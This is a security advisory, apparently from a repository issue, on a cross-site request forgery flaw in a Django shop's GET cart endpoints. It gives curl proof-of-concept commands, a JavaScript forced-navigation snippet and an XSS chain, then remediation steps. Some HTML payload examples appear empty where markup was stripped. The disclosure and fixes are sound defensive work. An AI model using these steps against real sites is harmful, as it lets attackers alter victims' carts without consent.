




# Description

Cross-Site Request Forgery (CWE-352) on the cart endpoints `/shop/add/<uuid>/` and `/shop/remove/<uuid>/`. Both perform **state changes via HTTP GET** without CSRF validation. The remove view also uses `@csrf_exempt`, although Django does not enforce CSRF checks on GET requests by default.

These endpoints can modify an authenticated or anonymous user's cart when the corresponding session cookie accompanies the request.

With `SameSite=Lax`, cross-site subresources such as `` normally do not send session cookies. However, **top-level cross-site GET navigations do**, including automatic redirects. Same-site embedded resources can also trigger changes without user interaction.

# Exploitation

| Scenario | Vector |
|----------|--------|
| Direct link | Send `http://<TARGET>/shop/add/<uuid>/`; one click modifies the cart. |
| Zero-click (same-site) | `/" style="display:none">` from a same-site page (e.g. via the shop XSS). Cross-site `` tags do not send `SameSite=Lax` cookies. |
| Zero-click (cross-site navigation) | An external page automatically navigates the browser to `/shop/add/<uuid>/`. Top-level GET navigation sends `SameSite=Lax` cookies. |
| XSS chain | The reflected shop XSS can `fetch('/shop/add/<uuid>/')` from the victim's session. |

# PoC

**1. A single GET modifies state (no CSRF token, no POST body):**

```bash
curl -s -b session.txt -o /dev/null -w "HTTP %{http_code}\n" \
  "http://<TARGET>/shop/add/67cb2350-ab89-430b-b50f-cccfa9360bdc/"
# HTTP 302 — verify the cart to confirm the addition
```



**2. Verify the item landed in the cart:**

```bash
curl -s -b session.txt "http://<TARGET>/shop/cart/" | grep -A1 "final-total"
# <span class="final-total">6.00 Neuros</span>
```





**3. Zero-click `` payload (same-site only):**

```html
<!-- Works from same-site pages (e.g. injected via stored XSS). -->
<!-- Cross-site  won't carry the SameSite=Lax session cookie. -->

```



**4. Cross-site top-level GET navigation:**

```javascript
window.location = 'https://<TARGET>/shop/add/67cb2350-ab89-430b-b50f-cccfa9360bdc/';
```

When triggered from an external page, this navigates the victim's browser to the target. Unlike a cross-site ``, the top-level GET navigation can include `SameSite=Lax` session cookies.

No CSRF token is checked on these GET requests. A `302` alone is not proof of modification; the cart contents must be verified.

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | None directly. |
| Integrity | Attacker-controlled addition, removal, or quantity changes in a victim's cart without consent. |
| Availability | Repeated forced cart modifications can disrupt the shopping experience. |

Overall severity: **Medium** — state-changing GET requests allow unauthorized cart modifications through requests carrying the victim's session cookie.

# Remediation

1. **Make the endpoints POST-only** (`@require_POST`).
2. **Require Django CSRF protection** for these POST requests (remove `@csrf_exempt` and include a valid CSRF token).
3. **Retain `SameSite` and `Origin`/`Referer` checks as defense in depth**, not as substitutes for POST and CSRF validation.
4. **Audit other state-changing GETs** (wishlist, follow, etc.) for the same anti-pattern.

# Author

Hackrapovic
